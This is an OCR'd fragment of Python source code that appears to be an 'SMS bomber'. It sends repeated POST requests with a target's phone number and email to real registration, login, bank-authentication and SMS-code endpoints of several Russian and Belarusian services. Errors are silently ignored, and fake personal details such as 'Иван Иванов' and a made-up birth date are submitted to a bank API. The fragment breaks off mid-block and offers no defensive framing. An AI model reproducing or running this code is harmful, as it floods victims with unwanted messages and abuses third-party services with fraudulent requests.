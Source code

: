        try:

            requests.post('https://newnext.ru/graphql', json={'operationName': 'registration', 'variables': {'client': {'firstName': 'Иван', 'lastName': 'Иванов', 'phone': _phone,'typeKeys': ['Unemployed']}},'query': 'mutation registration($client: ClientInput!) {''\n  registration(client: $client) {''\n    token\n    __typename\n  }\n}\n'})

        except:

            s=s

        try:

            requests.post('https://api.sunlight.net/v3/customers/authorization/', data={'phone': _phone})

        except:

            s=s

        try:

            requests.post('https://alpari.com/api/ru/protection/deliver/2f178b17990ca4b7903aa834b9f54c2c0bcb01a2/', json={'client_type': 'personal', 'email': _email, 'mobile_phone': _phone, 'deliveryOption': 'sms'})

        except:

            s=s

        try:

            requests.post('https://lk.invitro.ru/lk2/lka/patient/refreshCode', data={'phone': _phone})

        except:

            s=s

        try:

            requests.post('https://online.sbis.ru/reg/service/', json={'jsonrpc':'2.0','protocol':'5','method':'Пользователь.ЗаявкаНаФизика','params':{'phone':_phone},'id':'1'})

        except:

            s=s

        try:

            requests.post('https://ib.psbank.ru/api/authentication/extendedClientAuthRequest', json={'firstName':'Иван','middleName':'Иванович','lastName':'Иванов','sex':'1','birthDate':'10.10.2000','mobilePhone': _phone9,'russianFederationResident':'true','isDSA':'false','personalDataProcessingAgreement':'true','bKIRequestAgreement':'null','promotionAgreement':'true'})

        except:

            s=s

        try:

            requests.post('https://myapi.beltelecom.by/api/v1/auth/check-phone?lang=ru', data={'phone': _phone})

        except:
